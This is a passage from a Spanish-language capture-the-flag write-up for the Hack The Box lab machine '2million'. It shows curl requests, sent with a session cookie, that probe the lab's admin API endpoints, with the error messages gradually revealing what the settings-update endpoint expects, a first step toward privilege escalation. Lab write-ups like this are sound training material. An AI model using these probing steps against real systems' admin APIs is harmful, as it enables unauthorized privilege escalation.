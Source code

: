 ```bash
        "/api/v1/admin/settings/update": "Update user settings"
      }
    }
  }
}
```
Chequeamos si mi usuario es admin.
```bash
$ curl -s -X GET "http://2million.htb/api/v1/admin/auth" --cookie "PHPSESSID=qtp1ns4u7s0ackktj05qrovhuc" | jq
{
  "message": false
}
```
Si intento generar una VPN no tengo permiso (`405 Method Not Allowed`)
```bash
$ curl -sv -X GET "http://2million.htb/api/v1/admin/vpn/generate" --cookie "PHPSESSID=qtp1ns4u7s0ackktj05qrovhuc" 
*   Trying 10.10.11.221:80...
* Connected to 2million.htb (10.10.11.221) port 80 (#0)
> GET /api/v1/admin/vpn/generate HTTP/1.1
> Host: 2million.htb
> User-Agent: curl/7.88.1
> Accept: */*
> Cookie: PHPSESSID=qtp1ns4u7s0ackktj05qrovhuc
>
< HTTP/1.1 405 Method Not Allowed
< Server: nginx
< Date: Thu, 25 Apr 2024 22:05:35 GMT
< Content-Type: text/html; charset=UTF-8
< Transfer-Encoding: chunked
< Connection: keep-alive
< Expires: Thu, 19 Nov 1981 08:52:00 GMT
< Cache-Control: no-store, no-cache, must-revalidate
< Pragma: no-cache
<
* Connection #0 to host 2million.htb left intact

```

Usando el 3er endpoint administrativo.
```bash
$ curl -s -X PUT "http://2million.htb/api/v1/admin/settings/update" --cookie "PHPSESSID=qtp1ns4u7s0ackktj05qrovhuc" | jq 
{
  "status": "danger",
  "message": "Invalid content type."
}
```

Le agregamos el content type , y nos mostrara el parametro q falta.
```bash
$ curl -s -X PUT "http://2million.htb/api/v1/admin/settings/update" --cookie "PHPSESSID=qtp1ns4u7s0ackktj05qrovhuc" --header "Content-Type: application/json" | jq 
{
  "status": "danger",
  "message": "Missing parameter: email"
}
```
